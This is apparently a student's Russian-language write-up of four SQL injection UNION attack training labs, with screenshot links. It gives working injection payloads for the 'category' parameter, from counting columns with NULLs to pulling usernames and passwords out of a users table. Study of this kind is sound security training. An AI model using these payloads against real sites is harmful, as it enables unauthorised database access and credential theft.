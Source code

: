  Lab: SQL injection UNION attack, determining the number of columns returned by the query 
 
 Изменяем category, чтобы добавить дополнительный столбец, содержащий нулевое значение:'+UNION+SELECT+NULL,NULL--
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_1_1.PNG)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_1_2.PNG)
 
Lab: SQL injection UNION attack, finding a column containing text
 
 Меняем значение category '+UNION+SELECT+NULL-- , Происходит ошибка:
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_2_1.PNG)
Меняем значение category на '+UNION+SELECT+NULL,NULL,NULL-- 
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_2_2.PNG)
Работает)
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_2_3.PNG)
 
 Lab: SQL injection UNION attack, retrieving data from other tables
 
 Убеждаемся в том, что запрос возвращает два столбца, оба из которых содержат текст, используя полезную нагрузку , как в следующем в параметре категории: '+UNION+SELECT+'abc','def'-- :
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_1.PNG)
 Используйте следующую полезную нагрузку для извлечения содержимого usersтаблицы:'+UNION+SELECT+username,+password+FROM+users-- :
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_2.PNG)
 Проверяем
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_3.PNG)
 Работает)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_4.PNG)
 
 Lab: SQL injection UNION attack, retrieving multiple values in a single column
 
 Убеждаемся, что запрос возвращает два столбца, только один из которых содержит текст, используя полезную нагрузку, подобную следующей в categoryпараметре:'+UNION+SELECT+NULL,'abc'-- :
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_1.PNG)
 Используйте следующую полезную нагрузку для извлечения содержимого usersтаблицы:'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_2.PNG)
 Проверяем
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_3.PNG)
 Работает)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_4.PNG)
 
